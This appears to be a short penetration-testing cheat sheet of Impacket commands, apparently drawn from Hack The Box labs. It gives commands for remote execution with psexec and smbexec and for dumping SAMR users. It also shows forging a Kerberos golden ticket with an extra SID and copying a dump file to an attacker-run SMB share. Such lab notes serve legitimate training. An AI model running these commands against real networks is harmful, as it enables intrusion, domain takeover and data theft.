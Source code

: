 https://github.com/fortra/impacket/releases
## Impacket - PSExec
```bash
psexec.py 'user:pass@ipaddr'
```
## Impacket - SMBServer
```bash
smbserver.py -smb2support -username guest -password guest share ./

# Windows Connection
net use x: \\10.10.14.165\share /user:guest guest

# Copy Files
cmd /c "copy firefox.dmp X:\"
```
## Impacket - SMBExec
```bash
impacket-smbexec -k -no-pass -dc-ip 10.10.11.24 CORP.GHOST.HTB/administrator@dc01.ghost.htb
```
## Impacket - TicketConvertor
```bash
ticketConverter.py /PATH/ticket.kirbi ticket.ccache

export=KRB5CCNAME=/PATH/ticket.ccache
```
## Impacket - Ticketer
```bash
impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb administrator
```
## Impacket - Samrdump.py
```bash
samrdump.py 10.129.14.128
```


